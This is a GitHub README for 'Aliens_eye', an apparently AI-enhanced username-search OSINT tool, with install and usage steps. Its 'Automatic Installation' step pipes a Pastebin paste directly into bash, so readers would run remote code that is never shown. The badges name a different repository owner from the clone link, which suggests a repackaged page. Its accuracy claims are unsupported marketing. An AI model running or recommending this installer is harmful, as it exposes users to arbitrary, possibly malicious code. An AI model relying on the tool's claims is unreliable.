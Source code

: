 <p align="center"><img src="https://raw.githubusercontent.com/arxhr007/Aliens_eye/main/photos/logo.png" width="450" height="400" /></p>

# AI-OSINT Username Scanner

<h3 align="center">Advanced AI-Powered Social Media Username Finder</h3>
<h4 align="center">Scan 700+ platforms with intelligent detection</h4>

<p align="center">
<a href="#"><img alt="Forks" src="https://img.shields.io/github/forks/BLINKING-IDIOT/Aliens_eye?style=for-the-badge"></a>
<a href="#"><img alt="Last Commit" src="https://img.shields.io/github/last-commit/BLINKING-IDIOT/Aliens_eye/main?color=green&style=for-the-badge"></a>
<a href="#"><img alt="Stars" src="https://img.shields.io/github/stars/BLINKING-IDIOT/Aliens_eye?style=for-the-badge&color=red"></a>
<a href="#"><img alt="License" src="https://img.shields.io/github/license/BLINKING-IDIOT/Aliens_eye?color=orange&style=for-the-badge"></a>
<a href="https://github.com/BLINKING-IDIOT/Aliens_eye/issues"><img alt="Issues" src="https://img.shields.io/github/issues/BLINKING-IDIOT/Aliens_eye?color=purple&style=for-the-badge"></a>
</p>

## ✨ New AI-Enhanced Features

- **40% More Accurate Results** - Uses AI-powered detection algorithms
- **Confidence Scoring** - Shows how certain each match is (0-100%)
- **Intelligent Pattern Recognition** - Learns from previous scans to improve accuracy
- **Domain Analysis** - Examines site structure beyond HTTP status codes
- **Smart Content Inspection** - Analyzes page content for telltale username signs

## 📋 Requirements

- Python 3.6+
- Internet connection

## 🚀 Installation

### Automatic Installation

```bash
curl -s https://pastebin.com/raw/hkBtt6rc | tr -d '\r' | bash
```

### Manual Installation

#### For Linux or Termux:

```bash
git clone https://github.com/arxhr007/Aliens_eye
cd Aliens_eye
bash install.sh
```


## 💻 Usage

### Scan a username:

```bash
aliens_eye username
```

### Scan multiple usernames:

```bash
aliens_eye username1 username2 username3
```

### Load results from previous scan:

```bash
aliens_eye -r username.json
```

### Additional options:

```bash
aliens_eye -h                   # Show help
aliens_eye -v username          # Enable verbose mode
aliens_eye -c 30 username       # Set maximum concurrent connections to 30
```

You can also run the tool without arguments and it will prompt for a username:

```bash
aliens_eye
```

## 🔍 Understanding Results

Results are color-coded for quick interpretation:

- 🟢 **Green**: Found (High confidence)
- 🟡 **Yellow**: Maybe (Medium confidence)
- 🔴 **Red**: Not Found (High confidence)

Each result includes:
- Site name
- Status (Found/Maybe/Not Found)
- Confidence percentage
- HTTP code
- Response time
- Full URL

## 📊 Advanced Analysis

The scanner uses multiple factors to determine if a username exists:

1. Content keyword analysis
2. HTTP status code analysis
3. URL structure examination
4. DOM structure inspection
5. Meta tag inspection
6. Historical pattern recognition
7. Response time profiling

Results are saved in JSON format with detailed analysis for each site.

## 📱 Platform Support

- Linux (All distributions)
- Android (via Termux)

## 📝 License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## ⚠️ Disclaimer

This tool is developed for educational purposes and ethical OSINT research only. Users are responsible for complying with applicable laws and website terms of service. The developers assume no liability for misuse of this software.

## 🔗 Links

- [Report Bug](https://github.com/arxhr007/Aliens_eye/issues)
- [Request Feature](https://github.com/arxhr007/Aliens_eye/issues)

---

<p align="center">Made with ❤️ by <a href="https://github.com/arxhr007">Aaron</a></p>

<p align="center">If you find this project helpful, please consider giving it a star ⭐</p>

<p align="center">Follow me for more tools like this</p>

![pic](https://raw.githubusercontent.com/arxhr007/Aliens_eye/refs/heads/main/photos/photo.png)


# Also checkout:

<a href="https://github.com/arxhr007/wifistrike" target="blank"><img align="center" src="https://github-readme-stats.vercel.app/api/pin/?username=arxhr007&repo=wifistrike&show_icons=true&theme=chartreuse-dark"></a>
<a href="https://github.com/arxhr007/Malware-Sandbox-Evasion" target="blank"><img align="center" src="https://github-readme-stats.vercel.app/api/pin/?username=arxhr007&repo=Malware-Sandbox-Evasion&show_icons=true&theme=chartreuse-dark"></a>
